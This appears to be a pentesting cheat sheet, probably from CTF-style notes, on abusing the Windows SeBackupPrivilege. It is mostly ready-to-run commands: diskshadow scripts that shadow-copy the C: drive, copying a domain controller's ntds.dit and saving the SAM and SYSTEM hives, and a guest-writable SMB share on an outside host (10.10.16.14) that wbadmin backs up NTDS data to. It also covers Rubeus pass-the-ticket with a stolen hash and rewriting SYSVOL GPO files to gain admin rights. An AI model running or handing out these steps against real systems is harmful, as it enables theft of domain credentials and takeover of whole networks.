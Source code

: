 # SeBackupPrivilege

Exploit with `SeBackupPrivilege`.

# Stable Version

```powershell
mkdir C:\mane

echo "set context persistent nowriters" | out-file ./diskshadow.txt -encoding ascii
echo "add volume c: alias temp" | out-file ./diskshadow.txt -encoding ascii -append
echo "create" | out-file ./diskshadow.txt -encoding ascii -append    
echo "expose %temp% z:" | out-file ./diskshadow.txt -encoding ascii -append

diskshadow.exe /s c:\mane\diskshadow.txt
```

```powershell
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
Copy-FileSeBackupPrivilege Z:\Windows\NTDS\ntds.dit C:\mane\ntds.dit

reg save HKLM\SYSTEM system
reg save HKLM\SAM sam
```

[DLL Download Link](https://github.com/k4sth4/SeBackupPrivilege)

# More Version

You need to setup NTFS Disk to support remote windows backup.

## 0x0 Pre-setup ntfs

```bash
# Create 2G Disk
dd if=/dev/zero of=ntfs.disk bs=1024M count=2 

# Mount disk
sudo losetup -fP ntfs.disk

# Check Mount 
losetup -a

# format ntfs
sudo mkfs.ntfs /dev/loop0

# Mount 
sudo mount /dev/loop0 smb/

# Check mount
mount | grep smb

```
## 0x1 Install and setup smb

```bash
sudo vim /etc/samba/smb.conf
```

```config

# Comment the following line
# map to guest = bad user

# add config
[mane]
   comment = mane testing
   path = /home/mane/Challenge/smb
   writeable = yes
   guest ok = yes
   read only = no
   valid users = smbuser
   write list = smbuser
   force user = root
```

```bash
# add user
sudo adduser smbuser

# set password
sudo smbpasswd -a smbuser

# restart smb
sudo service smb restart
```

## 0x2 Testing smb share
```bash
$ smbmap -u 'smbuser' -p 'password' -H 127.0.0.1

[+] IP: 127.0.0.1:445   Name: localhost                 Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        mane                                                    READ, WRITE     mane testing
        print$                                                  READ ONLY       Printer Drivers
        IPC$                                                    NO ACCESS       IPC Service (Samba 4.19.0-Debian)
        smbuser                                                 READ ONLY       Home Directories

```

## 0x3 Mount remote PC

Cache the smb credential

```cmd
net use M: \\10.10.16.14\mane /user:smbuser password

dir M:\
```

## 0x4 Exploit

```
echo "Y" | wbadmin start backup -backuptarget:\\10.10.16.14\mane -include:c:\windows\ntds

# Look at the backup version
wbadmin get versions

# Restore the version
echo "Y" | wbadmin start recovery -version:10/09/2023-23:48 -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:C:\ -notrestoreacl
```

## 0x5 Finally

When Exploit ok, download ntds.dit in `C:\`.

# Change GPO files

You can change `GptTmpl.inf` file, wait GPO Update and got admin, [Details see Here](https://www.inguardians.com/wp-content/uploads/2020/04/BackupOperators-1.pdf).

```powershell
# Clear tickets
klist purge

# ask tgt
rubeus.exe asktgt /domain:manesec.local /user:backup /rc4:<backup$ hash> /ptt

# Read file
robocopy "\\DC\SYSVOL\megabank.local\Policies\{xxxxxxxxxxxxxxx}\MACHINE\Microsoft\Windows NT\SecEdit" "." GptTmpl.inf /b

# Write file
robocopy "." "\\DC\SYSVOL\megabank.local\Policies\{xxxxxxxxxxxxxxx}\MACHINE\Microsoft\Windows NT\SecEdit" GptTmpl.inf /b
```


# Reference

https://rootsecdev.medium.com/abusing-sebackupprivilege-cd5d1a88f992

https://www.youtube.com/watch?v=IfCysW0Od8w&t=2610s

https://www.inguardians.com/wp-content/uploads/2020/04/BackupOperators-1.pdf